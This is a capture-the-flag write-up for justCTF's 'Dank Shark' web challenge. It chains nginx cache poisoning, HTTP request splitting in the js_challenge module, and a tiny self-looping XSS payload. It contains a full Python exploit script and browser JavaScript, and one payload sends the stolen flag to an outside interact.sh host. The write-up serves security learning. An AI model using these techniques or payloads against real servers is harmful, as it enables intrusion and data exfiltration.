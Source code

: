 # Dank shank

> Strong shark protection!
> 
> Attachment: https://s3.cdn.justctf.team/bcbaa7ae-cc27-494f-8c65-6c1e22953e05/shark.zip

## Challenge

The hard of this challenge is evaluating a long js payload ( for fetching the flag and stuff ) with only 64 bytes of html.
Normally you would do `<img src=1 onerror=eval(window.name)>` but the xss bot doens't have access to internet.

## admin page

```html
<html>
<head>
    <title>Dank Shark</title>
</head>
<body>
<div>
    Last comment nickname: <div id="nickname">Maybe loading...</div>
</div>
</body>
<script>
    async function getNickname() {
        let data;
        try {
            const resp = await fetch(`/admin/api/v1/last_nickname`);
            if(resp.status !== 200) {
                throw Error('status not 200');
            }
            data = await resp.text();
            data = JSON.parse(data)['response']['nickname'];
        } catch (e) {
        }
        return data;
    }

    (async () => {
        document.querySelector("#nickname").innerHTML = await getNickname();
    })()
</script>
</html>
```

xss bot automatically goes to this page. The response of `last_nickname` is controllable by us but there is a check on that endpoint
that checks if the remote ip is not locahost. 
The first challenge is to bypass this mechanism 
## First part - Cache poisoning

There is a cache poisoning vulnerablity that is due to the misconfiguration of nginx.

```
proxy_cache_key "$language$request_uri";
```

`$request_uri` is `request_path+request_querystring` and `$language` is the `Accept-language` header of the request.

The requester ip address is not inside the cache key so we can use this vulnerablity to bypass the `last_nickname` endpoint protection.

## Second part - Weird http-js-challenge nginx module

This bug was quite fun to spot and exploit.
We actually found this bug by luck and somebody sent a POST request to somewhere and saw two responses in body.
After looking into this behavior, We concluded that the module doesn't clean the request body from the request buffer and we can get http request splitting primitives with it. 

```
GET / HTTP/1.1\r\n
Host: example.org\r\n
Content-Length: 30\r\n
\r\n
GET /hack HTTP/1.1\r\n
example: 
```

When the nginx module receives the above request, it doesn't read the body so the next request that it handles is the `GET /hack` request.
The splitted request is not fully sent (The last two CRLFs are not sent) so the next request that nginx receives goes inside that request.

That means that next request that the module handles is
```
GET /hack HTTP/1.1\r\n
example: GET / HTTP/1.1\r\n
Host: example.org\r\n
Header: header\r\n
\r\n
```

More details from the author:
> The bug in the js_challange module is here:
> 
> https://github.com/simon987/ngx_http_js_challenge_module/blob/master/ngx_http_js_challenge.c#L240
> 
> there is a missing ngx_http_discard_request_body(r)
> 
> So this module doesn't clean the request body
> 
> It is only exploitable with specific nginx configuration (keepalive connection on proxy_pass)

## Third part - Chaining the bugs

The following payload contains an infinite loop that keeps evaluating the `/last_nickname` endpoint response.

```html
<style onload="z=_=>getNickname().then(r=>eval('`'+z()+r));z()">
```

> This payload is the result of hours of hard-work and pain :')

Because this payload keeps requesting `/last_nickname`, we can use the request smuggling vulnerablity to change
the path of the request to somewhere with longer length limit.

Execute the following exploit before triggering the xss bot.
```py
#!/usr/bin/env python3
import requests
import time

# target = 'http://acrfd84eanl1n3w82ogr1xrec4habm.dank-shark.web.jctf.pro'
# resCookie = '26E78C1654D95E4FBBF6090FCFB9D2CDF4D8270570832'

target = 'http://7yovvqosk90obni8thovwgvek6cnr4.dank-shark.web.jctf.pro'
resCookie = '7174E38A014BD0E4CFDA2F8059896856FA6F13623486'

firstPayload = """`;fetch(`//0:1337`).then(r=>r.text()).then(r=>fetch(`//`+r.replace(`{`,``).replace(`}`,``)+`.cajv6f92vtc00008znt0gfjpu8ayyyyyb.interact.sh/`));//"""
print(len(firstPayload))

r = requests.post(f'{target}/api/v1/add_comment',cookies={
    'res':resCookie
},json={
    'comment':firstPayload,'nickname':"AAA"
})
print(r.text)


firstPayload = """<style onload="z=_=>getNickname().then(r=>eval('`'+z()+r));z()">"""
print(len(firstPayload))

r = requests.post(f'{target}/api/v1/add_comment',cookies={
    'res':resCookie
},json={
    'comment':"FFFFFFFFFff",'nickname':firstPayload
})
print(r.text)

while(1):
    requests.get(f'{target}/admin/api/v1/last_nickname',cookies={
        'res':resCookie
    })
    time.sleep(0.1)
```

And Execute the following payload on your browser about 10 seconds after clicking on the xss-bot visit button.
```js
    res = '7174E38A014BD0E4CFDA2F8059896856FA6F13623486'
    setInterval(()=>{
        fetch('/admin/changeroute',{method:"POST",body:"GET /api/v1/comments HTTP/1.1\r\nCookie:res="+res+"\r\nV:"})
    },100)
```

Thanks to the justCTF organizers for the awesome CTF!

> by renwa,as3617,parrot
